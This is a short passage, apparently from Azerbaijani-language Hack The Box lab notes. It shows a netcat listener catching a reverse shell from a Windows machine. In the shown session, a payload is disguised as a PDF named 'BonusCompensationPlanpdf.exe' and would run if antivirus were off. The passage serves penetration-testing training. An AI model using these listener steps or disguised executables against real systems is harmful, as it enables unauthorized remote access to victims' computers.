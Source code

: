 <img width="1025" height="687" alt="image" src="https://github.com/user-attachments/assets/8d702423-98f4-4b65-be08-c4168a3ad28f" />

Əgər AV deaktiv edilsəydi, istifadəçinin edəcəyi tək şey faylı icra etmək üçün iki dəfə klikləmək olardı və bizim bir shell seansımız olardı.

```bash
nijatmansimov@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
```
